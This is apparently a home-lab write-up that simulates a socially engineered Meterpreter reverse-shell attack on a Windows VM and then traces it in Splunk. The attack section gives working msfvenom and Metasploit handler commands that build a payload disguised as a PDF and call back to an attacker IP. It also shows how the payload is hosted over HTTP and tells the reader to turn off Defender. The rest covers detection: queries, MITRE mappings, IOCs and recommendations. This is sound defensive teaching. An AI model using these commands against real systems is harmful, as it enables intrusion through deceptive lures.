

# Reverse TCP Attack Simulation — Meterpreter Payload via Social Engineering

> **Lab Type:** Offensive Simulation + Blue Team Detection  
> **Attacker OS:** Kali Linux  
> **Victim OS:** Windows (VM)  
> **Tool Stack:** Nmap · Msfvenom · Metasploit Framework · Splunk SIEM  
> **Payload Used:** `windows/x64/meterpreter_reverse_tcp`  
> **Objective:** Simulate a socially engineered payload delivery, establish a reverse shell, and validate detection via Splunk telemetry.

---

## Attack Overview

This simulation models a classic **Initial Access → Execution → Command & Control (C2)** attack chain, where a threat actor crafts a disguised executable, hosts it over HTTP, lures the victim into downloading and executing it, and catches a reverse Meterpreter shell — all while a SIEM (Splunk) silently watches every move.

The payload is disguised as `appraisal_slip.pdf.exe` — a filename engineered to exploit human curiosity and bypass quick visual inspection, mimicking a real-world spear-phishing or insider-threat scenario.

---

## Environment Setup

| Role     | Machine      | Key Config                                      |
|----------|--------------|-------------------------------------------------|
| Attacker | Kali Linux   | Metasploit, Msfvenom, Python HTTP Server        |
| Victim   | Windows VM   | RDP Enabled, Defender Disabled, Splunk Agent    |

> **Pre-conditions on Victim:**
> - Windows Defender Real-Time Monitoring → **Disabled**
> - Remote Desktop Protocol (RDP) → **Enabled**
> - Splunk Universal Forwarder → **Running** (for detection telemetry)

---

## Attack Chain

### Step 1 — Reconnaissance: Port Scanning the Victim

The first move of any threat actor is reconnaissance — mapping the target's exposed attack surface.

```bash
nmap -A <victim_ip> -Pn
```

**Flag Breakdown:**

| Flag | Purpose |
|------|---------|
| `-A` | Aggressive scan — enables OS detection, version detection, script scanning, and traceroute |
| `-Pn` | Skips host discovery (treats the host as online) — useful when ICMP is blocked |

**Finding:** Port **3389 (RDP)** was found open on the victim machine.



**Threat Hunter Note:** An open RDP port is a high-value finding for attackers. It confirms the target is reachable and hints at potential lateral movement or brute-force vectors. Legitimate organizations should never expose RDP directly to untrusted networks.

---

### Step 2 — Weaponization: Exploring Msfvenom

Before crafting the payload, the attacker surveys available capabilities using `msfvenom`.

```bash
msfvenom               # View all available options and flags
msfvenom -l payloads   # List all payloads with descriptions
```

> 📸 `msfvenom_options.png` · `msfvenom_payloads.png` · `payload_name.png`

**Selected Payload:** `windows/x64/meterpreter_reverse_tcp`

**Why this payload?**
- Targets **64-bit Windows** — the standard architecture today
- **Reverse TCP** — the victim initiates the outbound connection back to the attacker, which is far more likely to bypass inbound firewall rules
- **Meterpreter** — an advanced in-memory shell that runs entirely in RAM, leaving minimal disk artifacts and supporting rich post-exploitation capabilities

---

### Step 3 — Payload Creation: Crafting the Malicious Executable

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe -o appraisal_slip.pdf.exe
```

**Parameter Breakdown:**

| Parameter | Value | Purpose |
|-----------|-------|---------|
| `-p` | `windows/x64/meterpreter_reverse_tcp` | Specifies the payload to embed |
| `LHOST` | `<your_ip>` | Attacker's IP — the address the victim will call back to |
| `LPORT` | `4444` | Attacker's listening port — where the reverse shell connects |
| `-f` | `exe` | Output format — generates a Windows executable |
| `-o` | `appraisal_slip.pdf.exe` | Output filename — disguised as a PDF to deceive the victim |

> 📸 `payload_created.png`

**Social Engineering Note:** The filename `appraisal_slip.pdf.exe` is a deliberate deception technique. Windows hides file extensions by default, so a victim may only see `appraisal_slip.pdf` — triggering curiosity and trust. This mirrors real-world spear-phishing lures targeting employees.

---

### Step 4 — Verify Payload on Disk

```bash
ls
```

> 📸 `payload_present.png`

Confirms the payload `appraisal_slip.pdf.exe` was successfully generated in the current working directory.

---

### Step 5 — Setting Up the Listener: Metasploit Multi/Handler

The attacker now arms Metasploit to receive the incoming reverse connection.

```bash
msfconsole
```

> 📸 `msfconsole_ui.png`

```bash
use exploit/multi/handler   # Load the generic payload handler
options                     # Inspect configurable parameters
```

> 📸 `handler_options.png`

```bash
set payload windows/x64/meterpreter_reverse_tcp   # Match the payload used in msfvenom
set lhost <your_ip>                                # Attacker's IP (must match LHOST in payload)
options                                            # Confirm all settings are correct
exploit                                            # Start listening
```

> 📸 `allset.png`

**Why `multi/handler`?**  
It is the universal catcher for staged and stageless payloads. It listens passively until the victim executes the payload and the reverse connection arrives — at which point a full Meterpreter session is established.

---

### Step 6 — Payload Delivery: Hosting via Python HTTP Server

With the listener armed, the attacker opens a second terminal, navigates to the payload directory, and spins up a temporary file server:

```bash
python3 -m http.server 9999
```

This serves all files in the current directory over HTTP on port **9999** — making the payload accessible to anyone on the network who visits:

```
http://<attacker_ip>:9999
```

> **Port Choice:** Port 9999 was selected to avoid conflicts with common services. Any unused high port works here.

---

## Victim Side — Payload Execution

### On the Victim Windows VM:

1. Open browser in **Incognito mode** and navigate to:
   ```
   http://<attacker_ip>:9999
   ```
   > 📸 `listing.png`

2. The directory listing is visible. Click on `appraisal_slip.pdf.exe` and **download it**.

3. If Windows Defender blocks the download:
   - Navigate to: `Windows Security → Virus & Threat Protection → Manage Settings`
   - Disable **Real-Time Protection**
   - Re-download and execute the file

4. **Double-click** the downloaded file to execute it.

> The victim sees nothing — no window, no UI. The payload runs silently in the background.

---

### Verify Execution on Victim (netstat)

Open Command Prompt **as Administrator** and run:

```cmd
netstat -anob
```

**Flag Breakdown:**

| Flag | Purpose |
|------|---------|
| `-a` | Show all active connections and listening ports |
| `-n` | Display addresses and ports in numerical form |
| `-o` | Show the owning Process ID (PID) for each connection |
| `-b` | Display the executable responsible for each connection |

Look for an **ESTABLISHED** outbound connection from `appraisal_slip.pdf.exe` to your attacker IP on port **4444** — confirming the reverse shell is live.

---

## SIEM Detection — Splunk Telemetry Analysis

### Query 1 — Initial Process Execution

```spl
index="main" appraisal_slip.pdf.exe
```

> 📸 `logs.png`

**What we see:** Splunk captured events tied to the payload execution — process creation logs confirming `appraisal_slip.pdf.exe` was spawned on the victim host. This is the attacker's **first footprint** in the SIEM.

---

### Query 2 — Network Connection Event

> 📸 `connevent.png`

Splunk logged an outbound **network connection event** — the victim machine reaching out to the attacker's IP on port 4444. This maps directly to the **C2 beaconing** phase of the attack.

> **Detection Opportunity:** An outbound connection from a user-downloaded `.exe` to a non-standard port on an internal IP is a high-confidence IOC and should trigger an alert in any tuned SIEM environment.

---

### Query 3 — Shell Spawn: `cmd.exe` Spawned by Payload

> 📸 `spawn.png`

Splunk captured `cmd.exe` being **spawned as a child process** of `appraisal_slip.pdf.exe`. This is the classic process lineage of a reverse shell — a non-browser, non-system binary spawning a command interpreter.

> **MITRE ATT&CK Mapping:** [T1059.003 — Command and Scripting Interpreter: Windows Command Shell](https://attack.mitre.org/techniques/T1059/003/)

---

### Query 4 — Recon Commands Traced via Process GUID

By copying the **Process GUID** from the spawn event and pivoting in Splunk:

```spl
index="main" <process_guid>
```

> 📸 `recon_logs.png`

**Commands observed running from the payload's process context:**

```cmd
whoami        # Identify current user context
ipconfig      # Map network configuration
net user      # Enumerate local user accounts
```

> **Threat Hunter Note:** This triad of commands (`whoami` → `ipconfig` → `net user`) is a textbook **discovery pattern** and a reliable behavioral indicator of post-exploitation reconnaissance. Any EDR or SIEM rule watching for these commands in sequence from an anomalous parent process should fire immediately.

---

## Meterpreter Session — Attacker View

Back on Kali, after the victim executes the payload, the Meterpreter session opens automatically:

```bash
shell           # Drop into a native Windows shell from Meterpreter
```

> 📸 `shell.png`

From here, the attacker ran post-exploitation recon:

```cmd
whoami          # Confirm user/privilege level on victim
ipconfig        # Get victim's IP configuration
net user        # List local accounts on the victim machine
```

> 📸 `info.png`

Full victim system context acquired. The attacker now has **interactive command execution** on the victim with zero physical access.

---

## Attack Chain Summary (MITRE ATT&CK)

| Phase | Technique | ID |
|-------|-----------|----|
| Reconnaissance | Active Scanning: Port Scanning | T1595.001 |
| Weaponization | Masquerading: Double File Extension | T1036.007 |
| Delivery | Ingress Tool Transfer via HTTP | T1105 |
| Execution | User Execution: Malicious File | T1204.002 |
| C2 | Non-Standard Port (4444) | T1571 |
| Discovery | System Owner / User Discovery | T1033 |
| Discovery | System Network Config Discovery | T1016 |
| Discovery | Local Account Discovery | T1087.001 |

---

## Key Indicators of Compromise (IOCs)

| IOC Type | Value |
|----------|-------|
| Filename | `appraisal_slip.pdf.exe` |
| Extension Masquerade | `.pdf.exe` double extension |
| Outbound Port | `4444` (Meterpreter default) |
| Delivery Port | `9999` (Python HTTP server) |
| Process Lineage | `appraisal_slip.pdf.exe` → `cmd.exe` |
| Recon Pattern | `whoami` + `ipconfig` + `net user` from anomalous parent |

---

## Detection Recommendations

1. **Alert on double-extension executables** — `.pdf.exe`, `.docx.exe` patterns are almost always malicious
2. **Baseline outbound ports** — flag persistent outbound connections on non-standard ports (e.g., 4444, 9999, 1337)
3. **Monitor cmd.exe parentage** — `cmd.exe` spawned by a user-downloaded file is a high-fidelity alert
4. **Correlate recon triads** — `whoami` + `ipconfig` + `net user` in rapid succession from the same process GUID warrants immediate investigation
5. **Hunt Python HTTP servers** — internal HTTP servers on ephemeral ports are uncommon and should be investigated

---

## Lessons Learned

- A simple Python HTTP server is all it takes to deliver a payload on a network — **network segmentation matters**
- Meterpreter's in-memory execution makes it difficult to detect at the file level — **behavioral detection is essential**
- Splunk captured the full attack chain from process creation → network connection → shell spawn → recon commands — **every step left a log trail**
- The attacker's biggest gift was a disabled Defender — **endpoint protection is your last line of defense, not the first**

---

*Documented for educational purposes in a controlled lab environment. All simulations performed on isolated virtual machines.*
